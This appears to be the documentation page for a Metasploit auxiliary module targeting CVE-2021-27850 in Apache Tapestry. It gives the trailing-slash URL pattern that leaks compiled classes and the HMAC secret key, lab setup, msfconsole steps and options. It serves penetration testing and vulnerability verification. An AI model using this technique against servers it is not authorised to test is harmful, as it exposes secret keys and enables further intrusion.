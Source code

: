 ## Description

This module exploits CVE-2021-27850 which affects several versions of Apache Tapestry. The versions concerned are at least 5.4.5, 5.5.0, 5.6.2 and 5.7.0. This CVE allows an attacker to leak the source code of a Tapestry server by requesting a particular `.class` file with its name through the url with an extra `/` at the end: http://tapestryhost:8080/assets/something/services/AppModule.class/. Due to this, it is possible to leak the HMAC secret key which is located in `AppModule.class` by default.

## Installation

A vulnerable version of Apache Tapestry can be downloaded from [here](https://downloads.apache.org/tapestry/apache-tapestry-5.7.0-bin.zip). I highly recommend you to follow the Tapestry tutorial there : [here](https://tapestry.apache.org/tapestry-tutorial.html). It will guide you through all the steps from setting up to launching a demo skeleton of your server.

## Verification Steps

List the steps needed to make sure this thing works

- 1. Start `msfconsole`
- 2. `use auxiliary/gather/http/cve_2021_27850_apache_tapestry_hmac_key`
- 3. `set RHOST <target_host>` and `set RPORT <target_port>`
- 4. `check` to check if the targeted Tapestry server is vulnerable or not
- 5. `set targeted_class` if you want to target another class than the default one (AppModule.class) 
- 6. `run` the module to exploit the CVE and leak the secret key !

## Options

**RHOSTS**

Set the target host.

**RPORT**

Set the target port. The default value is `8080` which is the default value used by Tapestry server.

**TARGETED_CLASS**

This is not a required option and by default the value is `AppModule.class` which is also the default java class of by Tapestry server where the hmac key is set. But in case you want to target a different java class, it can be done by setting this option with another class name.
